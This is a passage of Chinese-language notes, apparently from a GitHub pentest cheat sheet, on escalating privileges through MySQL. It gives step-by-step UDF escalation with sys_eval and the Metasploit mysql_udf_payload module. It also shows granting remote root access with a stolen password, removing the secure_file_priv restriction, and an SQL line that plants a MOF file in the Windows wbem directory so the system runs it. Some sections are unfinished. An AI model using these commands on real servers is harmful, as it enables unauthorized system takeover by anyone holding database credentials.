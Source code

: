     #步骤
    1.查看secure_file_priv的值
    secure_file_priv 是用来限制 load dumpfile、into  outfile、load_file() 函数在哪个目录下拥有上传或者读取文件的权限
    show global variables like 'secure%';
    	当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出，此时无法提权
        当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，此时也无法提权
        当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权
         secure_file_priv 的值在MySQL数据库的安装目录的 my.ini 文件中配置
    2.查看plugin的值，实际测试发现UDF提权成功与否与该值无关
    select Host,user,plugin from mysql.user where user = substring_index(user(),'@',1);
            当 plugin 的值为空时不可提权
            当 plugin 值为 mysql_native_password 时可通过账户连接提权        
    3.查看系统架构以及plugin目录，64 位的系统，我们可以去kali中 /usr/share/metasploit-framework/data/exploits/mysql/ 目录下载64位的 .dll 文件
    select * from mysql.func where name = 'sys_eval';    #查看创建的sys_eval函数
    select sys_eval('whoami');                           #使用系统命令
    未写完
    动态链接库
    /usr/share/metasploit-framework/data/exploits/mysql kali最新版位置
    msf提权
    exploit/multi/mysql/mysql_udf_payload
    show options
    set rhost 192.168.x.x
    set password root
    
    
    # 当拿到数据库密码后，可以修改配置使mysql开启外联，就是可以远程连接
    mysql>use mysql;
    mysql>GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'password' WITH GRANT OPTION;
    mysql>flush privileges;
    # \\修改配置，该配置是可写目录
    去掉导入的目录限制。可修改mysql配置文件（Windows下为my.ini, Linux下的my.cnf），在[mysqld]下面，查看是否有：
    secure_file_priv =
    如上这样一行内容，如果没有，则手动添加。如果存在如下行：
    secure_file_priv = /home 
    这样一行内容，表示限制为/home文件夹。而如下行：
    secure_file_priv =
    这样一行内容，表示不限制目录，等号一定要有，否则mysql无法启动。
    修改完配置文件后，重启mysql生效。
    
    
    推荐工具
    ```

    * MOF（提权率很低）

    MOF 提权是一个有历史的漏洞，基本上在 Windows Server 2003 的环境下才可以成功。提权的原理是C:/Windows/system32/wbem/mof/目录下的 mof 文件每 隔一段时间（几秒钟左右）都会被系统执行，因为这个 MOF 里面有一部分是 VBS 脚本，所以可以利用这个 VBS 脚本来调用 CMD 来执行系统命令，如果 MySQL 有权限操作 mof 目录的话，就可以来执行任意命令了

    ```powershell
    # 导出自定义mof文件到系统目录加载
    https://www.cnblogs.com/xishaonian/p/6384535.html
    select load_file('C:/phpStudy/PHPTutorial/WWW/user_add.mof') into dumpfile 'c:/windows/system32/whem/mof/nullevt.mof';
    ```
